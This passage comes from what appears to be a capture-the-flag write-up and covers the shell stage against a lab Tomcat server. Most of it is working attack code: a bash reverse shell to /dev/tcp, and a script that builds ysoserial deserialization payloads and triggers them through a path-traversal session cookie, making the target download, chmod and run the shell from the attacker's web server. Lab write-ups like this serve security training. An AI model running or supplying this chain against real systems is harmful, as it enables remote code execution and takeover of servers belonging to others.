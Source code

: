 #### Shell

To get a shell, I needed to do a bit more playing. It didn't work with
any commands that had redirection (like `|` or `>`) or stacking commands
with `;`. So I went to the three step approach. I created a simple shell
payload Bash script:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.15/443 0>&1



Now I'll send three payloads. The first will use `curl` to fetch that
shell and write it to `/tmp`. The next will `chmod` it to make it
executable. The third will run it. Because I ended up doing this a
handful of times, I wrote a dummy Bash script to do it for me.



    #!/bin/bash

    ip=$(ip addr | grep "inet 10.10" | awk '{print $2}' | cut -d'/' -f1)
    echo -e "#!/bin/bash\n\nbash -i >& /dev/tcp/${ip}/443 0>&1" > payload.sh

    java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 "curl ${ip}/payload.sh -o /tmp/.0xdf" > payload.session
    curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
    curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null

    java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 'chmod +x /tmp/.0xdf' > payload.session                
    curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
    curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null

    java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 '/tmp/.0xdf' > payload.session                         
    curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
    curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null   



I'll start `python3 -m http.server 80` in the directory with `shell.sh`,
and a `nc` listener on port 443, then run the above Bash script. First I
see the hit on my webserver:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.205 - - [31/Aug/2020 16:45:16] "GET /payload.sh HTTP/1.1" 200 -  


